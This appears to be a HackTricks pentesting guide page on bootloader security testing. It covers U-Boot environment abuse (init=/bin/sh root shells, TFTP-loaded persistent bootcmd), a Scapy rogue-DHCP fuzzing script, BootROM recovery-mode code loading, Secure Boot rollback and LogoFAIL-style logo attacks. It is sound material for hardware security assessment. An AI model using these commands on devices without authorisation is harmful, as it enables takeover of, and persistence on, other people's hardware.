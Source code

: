 # Test des bootloaders

{{#include ../../banners/hacktricks-training.md}}

Les étapes suivantes sont recommandées pour modifier les configurations de démarrage d'un appareil et tester des bootloaders tels que U-Boot et les chargeurs de classe UEFI. Concentrez-vous sur l'obtention d'une exécution de code précoce, l'évaluation des protections de signature/rollback, et l'abus des chemins de recovery ou de network-boot.

Related: MediaTek secure-boot bypass via bl2_ext patching:

{{#ref}}
android-mediatek-secure-boot-bl2_ext-bypass-el3.md
{{#endref}}

## U-Boot quick wins and environment abuse

1. Access the interpreter shell
- During boot, hit a known break key (often any key, 0, space, or a board-specific "magic" sequence) before `bootcmd` executes to drop to the U-Boot prompt.

2. Inspect boot state and variables
- Useful commands:
- `printenv` (dump environment)
- `bdinfo` (board info, memory addresses)
- `help bootm; help booti; help bootz` (supported kernel boot methods)
- `help ext4load; help fatload; help tftpboot` (available loaders)

3. Modify boot arguments to get a root shell
- Append `init=/bin/sh` so the kernel drops to a shell instead of normal init:
```
# printenv
# setenv bootargs 'console=ttyS0,115200 root=/dev/mtdblock3 rootfstype=<fstype> init=/bin/sh'
# saveenv
# boot    # or: run bootcmd
```

4. Netboot from your TFTP server
- Configure network and fetch a kernel/fit image from LAN:
```
# setenv ipaddr 192.168.2.2      # device IP
# setenv serverip 192.168.2.1    # TFTP server IP
# saveenv; reset
# ping ${serverip}
# tftpboot ${loadaddr} zImage           # kernel
# tftpboot ${fdt_addr_r} devicetree.dtb # DTB
# setenv bootargs "${bootargs} init=/bin/sh"
# booti ${loadaddr} - ${fdt_addr_r}
```

5. Persist changes via environment
- If env storage isn’t write-protected, you can persist control:
```
# setenv bootcmd 'tftpboot ${loadaddr} fit.itb; bootm ${loadaddr}'
# saveenv
```
- Check for variables like `bootcount`, `bootlimit`, `altbootcmd`, `boot_targets` that influence fallback paths. Misconfigured values can grant repeated breaks into the shell.

6. Check debug/unsafe features
- Look for: `bootdelay` > 0, `autoboot` disabled, unrestricted `usb start; fatload usb 0:1 ...`, ability to `loady`/`loads` via serial, `env import` from untrusted media, and kernels/ramdisks loaded without signature checks.

7. U-Boot image/verification testing
- If the platform claims secure/verified boot with FIT images, try both unsigned and tampered images:
```
# tftpboot ${loadaddr} fit-unsigned.itb; bootm ${loadaddr}     # should FAIL if FIT sig enforced
# tftpboot ${loadaddr} fit-signed-badhash.itb; bootm ${loadaddr} # should FAIL
# tftpboot ${loadaddr} fit-signed.itb; bootm ${loadaddr}        # should only boot if key trusted
```
- Absence of `CONFIG_FIT_SIGNATURE`/`CONFIG_(SPL_)FIT_SIGNATURE` or legacy `verify=n` behavior often allows booting arbitrary payloads.

## Network-boot surface (DHCP/PXE) and rogue servers

8. PXE/DHCP parameter fuzzing
- U-Boot’s legacy BOOTP/DHCP handling has had memory-safety issues. For example, CVE‑2024‑42040 describes memory disclosure via crafted DHCP responses that can leak bytes from U-Boot memory back on the wire. Exercise the DHCP/PXE code paths with overly long/edge-case values (option 67 bootfile-name, vendor options, file/servername fields) and observe for hangs/leaks.
- Minimal Scapy snippet to stress boot parameters during netboot:
```python
from scapy.all import *
offer = (Ether(dst='ff:ff:ff:ff:ff:ff')/
IP(src='192.168.2.1', dst='255.255.255.255')/
UDP(sport=67, dport=68)/
BOOTP(op=2, yiaddr='192.168.2.2', siaddr='192.168.2.1', chaddr=b'\xaa\xbb\xcc\xdd\xee\xff')/
DHCP(options=[('message-type','offer'),
('server_id','192.168.2.1'),
# Intentionally oversized and strange values
('bootfile_name','A'*300),
('vendor_class_id','B'*240),
'end']))
sendp(offer, iface='eth0', loop=1, inter=0.2)
```
- Also validate if PXE filename fields are passed to shell/loader logic without sanitization when chained to OS-side provisioning scripts.

9. Rogue DHCP server command injection testing
- Set up a rogue DHCP/PXE service and try injecting characters into filename or options fields to reach command interpreters in later stages of the boot chain. Metasploit’s DHCP auxiliary, `dnsmasq`, or custom Scapy scripts work well. Ensure you isolate the lab network first.

## SoC ROM recovery modes that override normal boot

Many SoCs expose a BootROM "loader" mode that will accept code over USB/UART even when flash images are invalid. If secure-boot fuses aren’t blown, this can provide arbitrary code execution very early in the chain.

- NXP i.MX (Serial Download Mode)
- Tools: `uuu` (mfgtools3) or `imx-usb-loader`.
- Example: `imx-usb-loader u-boot.imx` to push and run a custom U-Boot from RAM.
- Allwinner (FEL)
- Tool: `sunxi-fel`.
- Example: `sunxi-fel -v uboot u-boot-sunxi-with-spl.bin` or `sunxi-fel write 0x4A000000 u-boot-sunxi-with-spl.bin; sunxi-fel exe 0x4A000000`.
- Rockchip (MaskROM)
- Tool: `rkdeveloptool`.
- Example: `rkdeveloptool db loader.bin; rkdeveloptool ul u-boot.bin` to stage a loader and upload a custom U-Boot.

Assess whether the device has secure-boot eFuses/OTP burned. If not, BootROM download modes frequently bypass any higher-level verification (U-Boot, kernel, rootfs) by executing your first-stage payload directly from SRAM/DRAM.

## UEFI/PC-class bootloaders: quick checks

10. ESP tampering and rollback testing
- Mount the EFI System Partition (ESP) and check for loader components: `EFI/Microsoft/Boot/bootmgfw.efi`, `EFI/BOOT/BOOTX64.efi`, `EFI/ubuntu/shimx64.efi`, `grubx64.efi`, vendor logo paths.
- Try booting with downgraded or known-vulnerable signed boot components if Secure Boot revocations (dbx) aren’t current. If the platform still trusts old shims/bootmanagers, you can often load your own kernel or `grub.cfg` from the ESP to gain persistence.

11. Boot logo parsing bugs (LogoFAIL class)
- Several OEM/IBV firmwares were vulnerable to image-parsing flaws in DXE that process boot logos. If an attacker can place a crafted image on the ESP under a vendor-specific path (e.g., `\EFI\<vendor>\logo\*.bmp`) and reboot, code execution during early boot may be possible even with Secure Boot enabled. Test whether the platform accepts user-supplied logos and whether those paths are writable from the OS.

## Hardware caution

Be cautious when interacting with SPI/NAND flash during early boot (e.g., grounding pins to bypass reads) and always consult the flash datasheet. Mistimed shorts can corrupt the device or the programmer.

## Notes and additional tips

- Try `env export -t ${loadaddr}` and `env import -t ${loadaddr}` to move environment blobs between RAM and storage; some platforms allow importing env from removable media without authentication.
- For persistence on Linux-based systems that boot via `extlinux.conf`, modifying the `APPEND` line (to inject `init=/bin/sh` or `rd.break`) on the boot partition is often enough when no signature checks are enforced.
- If userland provides `fw_printenv/fw_setenv`, validate that `/etc/fw_env.config` matches the real env storage. Misconfigured offsets let you read/write the wrong MTD region.

## References

- [https://scriptingxss.gitbook.io/firmware-security-testing-methodology/](https://scriptingxss.gitbook.io/firmware-security-testing-methodology/)
- [https://www.binarly.io/blog/finding-logofail-the-dangers-of-image-parsing-during-system-boot](https://www.binarly.io/blog/finding-logofail-the-dangers-of-image-parsing-during-system-boot)
- [https://nvd.nist.gov/vuln/detail/CVE-2024-42040](https://nvd.nist.gov/vuln/detail/CVE-2024-42040)

{{#include ../../banners/hacktricks-training.md}}
